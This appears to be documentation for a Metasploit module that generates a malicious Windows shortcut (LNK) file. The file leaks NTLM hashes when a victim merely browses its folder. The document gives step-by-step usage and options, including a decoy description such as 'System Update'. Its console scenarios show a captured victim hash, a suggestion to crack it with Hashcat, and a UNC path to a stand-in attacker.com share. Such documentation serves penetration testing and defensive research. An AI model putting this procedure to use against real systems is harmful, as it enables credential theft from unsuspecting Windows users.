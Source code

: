 This module generates a malicious Windows shortcut (LNK) file that embeds a special UNC path within the IconEnvironmentDataBlock of the Shell Link structure. When a victim browses to the directory containing the LNK file in Windows Explorer, it triggers an automatic authentication attempt to the specified remote SMB server, allowing for the capture of NTLM hashes.

The exploit relies on how Windows processes LNK files with manipulated environment data blocks, leading to unsolicited SMB connections without requiring the user to open the file.

## Vulnerable Application

Windows systems using Explorer to browse directories with LNK files, where the IconEnvironmentDataBlock can force SMB authentication leaks.

References:
- [Right-Click LNK](https://zeifan.my/Right-Click-LNK/)

Disclosure Date: 2025-05-16.

## Verification Steps

1. Start msfconsole.
2. Load the module: `use auxiliary/fileformat/iconenvironmentdatablock_lnk`.
3. Set options like FILENAME, UNC_PATH, or others as needed.
4. Execute the module: `run`.
5. A malicious LNK file is generated.
6. If UNC_PATH is not set, an integrated SMB capture server starts.
7. Place the LNK in a target directory.
8. Browse the directory in Windows Explorer to trigger the SMB connection.
9. Check the console for captured NTLM hashes.

## Options

### FILENAME

The name of the generated LNK file.

Default: `msf.lnk`

Example:
```
set FILENAME leak.lnk
```

### UNC_PATH

The UNC path (e.g., `\\server\share`) for the LNK to connect to. If unset, the module starts its own SMB server.

Example:
```
set UNC_PATH \\192.168.1.100\share
```

### DESCRIPTION

Optional description for the shortcut. If unset, a random sentence is generated.

Example:
```
set DESCRIPTION System Update
```

### ICON_PATH

Optional icon path for the LNK. If unset, a random system icon path is generated.

Example:
```
set ICON_PATH %SystemRoot%\\System32\\shell32.dll
```

### PADDING_SIZE

Size of padding in the command arguments.

Default: 10

Example:
```
set PADDING_SIZE 20
```

### Advanced Options

**SRVHOST**

Local host for the integrated SMB server (if UNC_PATH is unset).

Default: `0.0.0.0`

Example:
```
set SRVHOST 192.168.1.25
```

**SRVPORT**

Local port for the integrated SMB server.

Default: `445`

Example:
```
set SRVPORT 445
```

## Scenarios

### NTLM Hash Capture via Integrated Server

Target: Windows system with Explorer.

```
msf > use auxiliary/fileformat/iconenvironmentdatablock_lnk
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set FILENAME leak.lnk
FILENAME => leak.lnk
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set SRVHOST 192.168.1.25
SRVHOST => 192.168.1.25
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set DESCRIPTION Fake Shortcut
DESCRIPTION => Fake Shortcut
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set PADDING_SIZE 15
PADDING_SIZE => 15
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > run

[*] Creating 'leak.lnk' file...
[+] LNK file created: leak.lnk
[*] Listening for hashes on 192.168.1.25:445
[*] Auxiliary module execution completed
```

Deliver `leak.lnk` to a target folder. Browsing the folder triggers an SMB connection:

```
[*] SMB Captured - 2025-09-18 21:07:00 +0530
NTLMv2 Response Captured from 192.168.1.50:49180 - 192.168.1.50
USER:victim DOMAIN:VICTIMPC OS: Windows 10 LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:samplehash
NT_CLIENT_CHALLENGE:samplechallenge
```

Crack the hash with tools like Hashcat.

### Custom UNC Path Usage

For an external SMB setup:

```
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > set UNC_PATH \\attacker.com\captureshare
UNC_PATH => \\attacker.com\captureshare
msf auxiliary(fileformat/iconenvironmentdatablock_lnk) > run

[*] Creating 'msf.lnk' file...
[+] LNK file created: msf.lnk
[*] Auxiliary module execution completed
```

Monitor the external server for authentication attempts.